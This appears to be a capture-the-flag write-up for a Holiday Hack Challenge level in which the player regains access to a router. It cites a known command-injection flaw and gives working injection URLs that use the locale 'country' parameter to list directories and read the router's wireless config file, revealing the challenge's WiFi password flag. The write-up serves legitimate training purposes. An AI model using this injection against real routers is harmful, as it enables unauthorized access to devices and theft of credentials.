




# Act 2: Dosis network down

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Website](https://dosis-network-down.holidayhackchallenge.com)

## Objective

!!! question "Request"
    Drop by JJ's 24-7 for a network rescue and help restore the holiday cheer. What is the WiFi password found in the router's config?

??? quote "Janusz Jasinski"
    Alright then. Those bloody gnomes 'ave proper messed about with the neighborhood's wifi - changed the admin password, probably mucked up all the settings, the lot.<br/>
    Now I can't get online and it's doing me 'ead in, innit?<br/>
    We own this router, so we're just takin' back what's ours, yeah?<br/>
    You reckon you can 'elp me 'ack past whatever chaos these little blighters left be'ind?

Gnomes messed up the neighboohood Wifi, changing the configuration and passwords, let's try to use the router to regain access


## Solution



### Approach


- Research the web for the version of the router

There is a vulnerability about unauthorized command injection.

(https://www.exploit-db.com/exploits/51677)
(https://www.tenable.com/security/research/tra-2023-11)

Let's try to exploit it (Do not forget to properly encode the URLs)

- List the directories available
```
https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(ls)
```


- List  /etc where config files are generally located
```
https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(ls%20-la%20etc)
```


- Look for wireless config file in config folder
```
https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(cat%20etc%2Fconfig%2Fwireless)
```

<br/>

The key we are looking for is: **SprinklesAndPackets2025!**
